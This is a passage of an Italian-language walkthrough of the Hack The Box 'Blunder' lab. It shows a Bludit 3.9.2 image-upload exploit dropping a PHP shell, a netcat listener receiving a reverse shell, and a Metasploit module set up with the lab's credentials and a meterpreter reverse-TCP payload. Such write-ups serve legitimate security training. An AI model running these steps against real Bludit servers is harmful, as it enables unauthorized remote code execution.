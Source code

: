 ```bash
[...] Attempting to get a shell... @ http://10.10.10.191/bl-content/tmp/sbRyVnWevZ.php
[ + ] You should be getting a shell by now, if not open http://10.10.10.191/bl-content/tmp/sbRyVnWevZ.php
```

otteniamo cosi la nostra shell.
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.191] 55730
bash: cannot set terminal process group (1285): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

### Metasploit

Come visto in precedenza abbiamo  [questo](https://www.exploit-db.com/exploits/47699)modulo di metasploit che fa al caso nostro ma per utilizzarlo dobbiamo avere prima la password per l'utente fergus.

Quindi apriamo metasploit e lo settiamo come segue:

```shell-session
msf6 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2



View the full module info with the info, or info -d command.
```
